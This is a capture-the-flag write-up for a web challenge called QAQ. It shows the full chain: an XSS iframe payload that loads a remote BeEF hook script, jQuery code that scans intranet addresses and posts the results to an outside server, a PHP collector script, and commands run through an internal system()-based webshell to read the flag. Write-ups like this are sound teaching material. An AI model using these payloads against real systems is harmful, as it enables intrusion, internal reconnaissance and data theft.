


# Writeup for QAQ (WEB) (350)

> Solves: 16

> web

> http://104.199.132.251:80

> hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!

> hint2: CORS headers
  
We had a web interface:



After submit form, had summary, so we could test XSS prevention bypass, by us (this alert was not xss, was native in response):



Our XSS Payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

XSS successfully append code to body:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
So we could execute any unrestricted javascript code, from our external server.

On first we execute [hook.js](hook.js) from BeEF source.

Hint `Secret in intranet` prompted us to scan hosts in BeEF, results was:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that we checked IP nearest to founded hosts

Injected JS code (only replaced code in hook.js in our server, XSS payload was same)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server script observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was checked what was there.

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Looked nice. We had php shell from `$_GET[c]`

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```


returned flag